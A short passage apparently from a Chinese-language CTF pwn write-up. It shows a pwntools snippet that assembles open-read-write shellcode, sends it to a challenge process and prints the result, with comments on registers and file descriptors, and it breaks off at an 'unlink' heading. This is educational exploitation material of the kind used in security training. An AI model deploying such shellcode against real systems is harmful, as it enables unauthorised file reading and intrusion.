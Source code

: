 	shellcode += shellcraft.open('rsp', 0, 0) #rsp 保存到栈顶
	shellcode += shellcraft.read('rax', 'rsp', 100) #rsp 读出rax的值然后输入到rsp上
	shellcode += shellcraft.write(1, 'rsp', 100) # 
	#linux 0--->stdin,1--->stdout,2--->stderr.write(1,'rsp',100)
	# log.info(shellcode)
	p.recvuntil('shellcode: ')
	print (shellcode+'\n')
	p.send(asm(shellcode))
	log.success(p.recvline())

大家可以打印出来，看看的shellcode具体汇编代码，顺便学习一下汇编shellcode的写法(64位程序的写法)

# unlink 









               ^

